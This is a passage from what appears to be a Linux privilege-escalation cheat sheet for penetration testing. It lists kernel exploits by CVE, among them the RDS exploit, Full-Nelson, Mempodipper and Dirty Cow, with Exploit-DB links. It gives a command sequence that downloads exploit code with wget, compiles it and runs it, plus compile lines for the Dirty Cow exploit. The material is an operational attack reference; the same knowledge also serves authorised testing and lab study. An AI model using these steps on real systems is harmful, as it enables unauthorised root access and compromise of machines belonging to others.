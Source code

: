 ```text
https://www.exploit-db.com/exploits/37292
```

#### CVE-2010-3904 - Linux RDS Exploit - Linux Kernel &lt;= 2.6.36-rc8

```text
https://www.exploit-db.com/exploits/15285/
```

#### Linux Kernel &lt;= 2.6.37 'Full-Nelson.c'

```text
https://www.exploit-db.com/exploits/15704/
```

#### CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 &lt; 3.2.2 \(Gentoo / Ubuntu x86/x64\)

```text
https://git.zx2c4.com/CVE-2012-0056/about/
```

#### Linux CVE 2012-0056

```text
wget -O exploit.c <http://www.exploit-db.com/download/18411>
  gcc -o mempodipper exploit.c
  ./mempodipper
```

#### CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel &lt;= 3.19.0-73.8

```text
https://dirtycow.ninja/
```

#### Compile dirty cow:

```text
 g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
```

#### Cross compiling exploits

```text
gcc -m32 -o output32 hello.c #(32 bit)
gcc -m64 -o output hello.c # (64 bit)
```

#### Linux 2.6.32

```text
https://www.exploit-db.com/exploits/15285/
```

#### Elevation in 2.6.x:
